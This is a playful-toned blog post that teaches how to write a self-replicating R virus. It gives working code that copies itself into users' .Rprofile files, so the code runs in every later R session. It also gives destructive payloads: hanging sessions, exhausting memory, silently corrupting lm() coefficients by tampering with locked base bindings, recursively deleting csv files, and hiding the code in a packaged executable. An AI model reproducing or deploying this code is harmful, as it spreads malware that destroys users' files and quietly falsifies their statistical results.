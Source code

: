 ```yaml
---
title: 'How to Write an R Virus '
author: Siqi Zhang
date: '2018-09-27'
slug: how-to-write-an-r-virus
categories:
  - R
tags:
  - Programming
---
```


A [computer virus](https://en.wikipedia.org/wiki/Computer_virus) is a piece of program that can:

 - copy itself
 - do bad things     

This is not very hard to accomplish with R, as I will demonstrate in this article.  

  
## Replicate ##
    
The [_virus_](https://gist.github.com/iqis/e4030f6af45d0d3ebae21f2816c1fc58) exploits R's initilization script, `.Rprofile`. When R starts up, it is going to look for this file in the current working directory and the user's home directory, then runs everything in it:
```r
{
    function() {
        rp_paths <- c("~/.Rprofile", paste0(getwd(), "/.Rprofile"))
        inject <- function(rp, code) {
            write(code, file = rp, append = FALSE)
        }
        lapply(rp_paths, inject, code = deparse(match.call()))

        cat("Wow, your R is Rancid!!!\n")
    }
}()

```

When the above script is run, it will make a copy of itself through `deparse(match.call())`, and overwrite the `.Rprofile` files. The next time you open a new R session, everything you see in the above will be run again. Right now, our virus does nothing but printing something at the end of your start up message.

```
...

Type 'demo()' for some demos, 'help()' for on-line help, or
'help.start()' for an HTML browser interface to help.
Type 'q()' to quit R.

Wow, your R is Rancid!!!
```
Any project that started by the user is going to have its project folder infected. Likewise, if someone copy-and-pasted the R project folder to another computer, and start R from there, his home folder is going to be infected.

As R is an interpreted language, this seems to be the only way to infection. To conceal our malicous code, there is a way of packing a Shiny app into a Windows executable through using a tool called [RInno](https://ficonsulting.github.io/RInno/), which has [Electron](https://electronjs.org/) behind itself.
  
## Damage ##
    
It looks like that the replication part of the virus is taken care of. What, then, are some malicious scripts that we can have fun with? 

There could be countless ways.

One of the easiest thing to do is to hang the user's R session. It could be done as simply as putting it to _sleep_ for a really long time:
```r
Sys.sleep(1e9)
```
... like 30 years, give or take.

Or, let R come up with a really large number; this is also going take up available memory to the user.
```r
rnorm(1e9)
```
For me, 1e9 is quite enough. But scientific notaion is your friend. Go big.

However, if R is rendered completely unusable, the virus isn't goint to travel very far. That's not what we want. It is also a great idea to replace some good functions with naughty ones. Symbol bindings are locked in attached namespaces, but it is easy to undo that:
```r
reassign <- function(sym, value, envir) {
        envir <- as.environment(envir)
        unlockBinding(sym, envir)
        assign(sym, value, envir = envir)
}
```

We can do the user a service by forbidding the `library()` function, and prompt a better option.
```r
reassign("library", 
         function(...) warning("No man, seriously. Use require()"),
         "package:base"
)
```

The effect would be:
```r
library(purrr)
```

Now let's try something more subtle and more bad(_badder_?). We first extend the `reassign()` function a little bit...
```r
tamper <- function(sym, value, envir){
        assign(paste0(".",sym), 
               get(sym, envir = as.environment(envir)), 
               envir = as.environment("package:base")
               )
        reassign(sym, value, envir)
}
```

... and use it to slip in some bad code.
```r
tamper("lm",
       function(...){
               model <- .lm(...)
               model$coefficients <- 
                       model$coefficients * (1 + rnorm(1))
               model
               },
       "package:stats")
```

Now when we build a model; the coefficients looks normal, but are completely off. You can compare the this with the result on your own computer.
```r
lm(mpg ~ ., data = mtcars)$coefficients
```

In the above, we saved a copy of the original function in the base package, concealing it with prepending the name wit a `.`. If we didn't do that, we would have create an infinite recursion through self-refernce, such as:
```r
reassign("paste",
         function(...) paste(...),
         "package:base")

```

```r
paste("foo", "bar")
```
Running this will have an effect of crashing the R session. If the user didn't save documents before setting off this bomb,it's obviously too bad. Another way to create trouble.

## Further Damage ##
    
There are yet more ways to our streak of mischief. For starters, how about deleting every `csv` file the user has in the working directory? 
```r
file.remove(list.files(getwd(), 
                       ".csv",
                       recursive = TRUE)
```
    
Doing something on the file system is a big step foward form just messing with their R session.

From annoying to destructive, the level of naughtiness only limited by on your imagination. With some deliberation, you can ruin someone's life in a very meaningful way. 

Here are some futher ideas:

  -  Bloat the user's disk space with meaningless data
  -  Give wrong results only _sometimes_ when a function is called
  -  Use [Rstudio API](https://rstudio.github.io/rstudio-extensions/pkgdown/rstudioapi/index.html) to mess with the user's scripts in the editor, or some other wild sh*t.

    
    
**Note**  
You also have the choice of putting any of the malicious programs in `.First()` and `.Last()` functions, which will run at the beginning and the end of a session. See the [R Manual](https://stat.ethz.ch/R-manual/R-devel/library/base/html/Startup.html) for details. 

More on `.Rprofile`: [Fun with .Rprofile and customizing R startup](http://www.onthelambda.com/2014/09/17/fun-with-rprofile-and-customizing-r-startup/)
